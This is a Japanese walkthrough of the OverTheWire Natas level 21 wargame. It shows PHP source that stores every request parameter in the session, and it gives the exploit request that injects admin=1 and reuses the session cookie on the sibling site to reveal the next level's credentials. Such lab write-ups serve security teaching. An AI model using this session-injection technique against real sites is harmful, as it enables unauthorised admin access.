

`http://natas21.natas.labs.overthewire.org/`の方  

  

ソースコード①  
```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "<censored>" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```


次に`http://natas21-experimenter.natas.labs.overthewire.org/index.php`の方  

  

ソースコード②  

```
 <html>
<head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>

<p>Example:</p>
<?=$example?>

<p>Change example values here:</p>
<?=$form?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


今回も admin=1 を目指す問題  

注目すべきは以下の部分  
```
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

ユーザーから送られたパラメータを$_SESSIONに保存している。  

ブラウザの開発者モードで以下のようにして送信してみる。  
  


パラメータは以下の通り↓  
```
align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update
```


送信を行ったらPHPSESSIDをコピーし、`natas21.natas`の方にセットし送信する。  

また以下のようにGETリクエストのURLに付加する方法でもできる  
```
http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug&align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update
```

  


